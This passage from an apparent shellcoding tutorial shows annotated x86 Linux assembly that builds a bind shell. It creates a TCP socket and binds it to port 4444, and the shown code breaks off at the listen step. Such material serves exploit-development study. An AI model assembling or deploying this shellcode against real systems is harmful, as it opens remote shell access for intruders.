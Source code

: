 ## Putting it all together

If you followed all the steps you should have an assembly file that looks similar to this:

```
global _start

section .text

_start:
;sys_socket:
	; [+] Setting up socketcall() for SYS_SOCKET
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	; EAX = socketcall()
	; EBX = SYS_SOCKET[1]
	; ECX = (int domain, int type, int protocol)
	xor    eax,eax	;
	mov    al,0x66	; setting syscall as socketcall() [REF1]
	xor    ebx,ebx	;
	push   ebx	; setting ECX param in memory - 0x0 (0 for tcp(7) stream sockets)	:	[socket_struct --> REF3]
	inc    ebx	; setting EBX 0x1 (socketcall: SYS_SOCKET[1]) 				:	[socketCall_struct --> REF4]
	push   ebx	; setting ECX param in memory - 0x1,0x0 (socket: SOCK_STREAM[1]) 	:	[socket --> REF2]
	push   0x2	; setting ECX param in memory - 0x2,0x1,0x0 (socket: AF_INET[2])	:	[socket --> REF2]
	mov    ecx,esp	; ECX points to args on stack for socket() 				:	[socket_struct --> REF3]
	int    0x80	; calling socketcalll(SYS_SOCKET, (socket(AF_INET, SOCK_STREAM, 0))	


save_sockfd:
	xor esi,esi	;
	mov esi,eax 	; save sockfd in ESI for future syscalls


sys_bind:
	; [+] Setting up socketcall() for SYS_BIND
	; int socketcall(int call, unsigned long *args)
	; int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
	; EAX = socketcall
	; EBX = SYS_BIND[2]
	; ECX = (int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	mov    al,0x66	; setting syscall as socketcall()
	pop    ebx	; setting EBX to 0x2 (socketcall: SYS_BIND[2])				:	[socketcall --> REF1]
	pop    edx	; removing 0x1 from stack
	xor    edx,edx	;
	push   edx	; setting ECX param in memory - NULLBREAK
	push   word 0x5c11	; setting ECX param in memory - 0x5c11,0x00 (PORT)		:	[bind --> REF5]
	push   0x10	; setting ECX in memory - 0x10 is 16 bytes - 0x10,0x5c11,0x00		:	[bind --> REF5]
	push   ecx	; setting ECX in memory - *SYS_SOCKET-struct,0x10,0x5c11,0x00		:	[bind --> REF5]	
	push   esi	; pushing socket fd onto stack  (SYS_SOCKET-sockfd)			: 	[bind --> REF5]
	mov    ecx,esp	; save pointer of BIND args into ecx					:	[bind --> REF5]
	int    0x80	; calling socketcalll(SYS_BIND,(ADDRESS-SYS_SOCKET-SOCKFD,ADDRESS-SYS_SOCKET-STRUCT,len(16),4444))


sys_listen:
	; [+] socketcall() to SYS_LISTEN
```